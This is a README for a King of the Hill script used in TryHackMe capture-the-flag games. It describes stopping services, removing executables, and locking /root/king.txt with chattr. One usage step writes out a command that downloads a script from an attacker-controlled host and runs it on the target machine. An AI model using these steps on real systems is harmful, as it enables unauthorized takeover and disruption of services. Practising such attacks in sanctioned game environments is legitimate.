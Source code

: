 # The KOTH Script

<div style="text-align: center;">
  <script src="https://tryhackme.com/badge/1262708"></script>
</div>

**NOTE: Respect TryHackMe Rules**

**The KOTH Script is intended for recreational purposes within authorized environments, such as private games. Always adhere to the rules and guidelines provided by TryHackMe or any other platform you are using. The creator of this script is not responsible for any misuse or violation of terms. Use it responsibly and ethically.**

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the `/root/king.txt` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Clone the repository:
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Change to the KOTH-Scripts directory:
       
       cd KOTH-Script 

3. Start a Python HTTP server on port 80:
  
       python3 -m http.server 80  

4. On the KOTH machine, execute the KOTH.sh script:
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

5. Enter your desired nickname when prompted.

6. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the `/root/king.txt` file to maintain your dominance.

#### NOTE : Please ensure that the Python server is running on port 80 before executing the KOTH script.The KOTH script relies on the server to retrieve and run the check & chattr & guardian scripts.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.

## Note
Please comment out the lines that include "chattr -i" and "chattr +i" when you want to run the script on "Production" game.
